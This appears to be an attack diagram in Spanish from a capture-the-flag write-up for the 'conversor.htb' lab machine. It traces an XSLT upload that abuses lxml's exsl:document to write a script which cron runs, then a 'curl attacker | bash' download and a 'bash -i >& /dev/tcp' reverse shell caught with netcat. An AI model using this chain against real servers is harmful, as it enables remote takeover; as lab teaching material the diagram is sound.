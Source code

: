 
## Diagrama del Ataque

```
┌─────────────────┐
│   Atacante      │
│  10.10.14.15    │
└────────┬────────┘
         │
         │ 1. Sube exploit.xslt + payload.xml
         ▼
┌─────────────────────────────────────┐
│  Aplicación Web Vulnerable          │
│  conversor.htb                      │
│                                     │
│  ┌───────────────────────────────┐ │
│  │ lxml procesa XSLT             │ │
│  │ exsl:document escribe archivo │ │
│  └───────────────────────────────┘ │
│                                     │
│  Archivo escrito:                   │
│  /var/www/conversor.htb/scripts/    │
│  └─ shell.py                        │
└─────────────────┬───────────────────┘
                  │
                  │ 2. Cron ejecuta shell.py
                  │    (cada minuto)
                  ▼
         ┌────────────────┐
         │  shell.py:     │
         │  curl attacker │
         │  | bash        │
         └────────┬───────┘
                  │
                  │ 3. Descarga shell.sh
                  │
         ┌────────▼───────┐
         │  bash -i >&    │
         │  /dev/tcp/...  │
         └────────┬───────┘
                  │
                  │ 4. Reverse shell
                  ▼
         ┌────────────────┐
         │   Atacante     │
         │   nc -lvnp     │
         └────────────────┘
```